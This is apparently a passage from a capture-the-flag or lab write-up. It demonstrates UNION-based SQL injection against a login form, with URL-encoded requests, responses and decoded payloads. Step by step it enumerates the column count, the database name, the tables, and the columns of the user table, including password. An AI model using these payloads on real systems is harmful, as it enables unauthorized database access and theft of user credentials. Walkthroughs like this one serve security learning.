 ```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2c4--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome 4</h2>
...
```

>   ' union select 1,2,3,4-- -

There’s 4 columns in the database. Now lets get the database name.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cdatabase%28%29--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome main</h2>
...
```

>   ' union select 1,2,3,database()-- -

Now lets view the tables in `main`.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28table_name%2c+%22%2f%22%29+from+information_schema.tables+where+table_schema+%3d+%27main%27--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome blog/blog_comments/user/</h2>
...
```

>   ' union select 1,2,3,concat(table_name, "/") from information_schema.tables where table_schema = 'main'-- -

The column we are interested in is `user`, so lets view that.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28column_name%2c+%22%2f%22%29+from+information_schema.columns+where+table_schema+%3d+%27main%27+and+table_name+%3d+%27user%27--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome email/id/name/password/</h2>
...
```

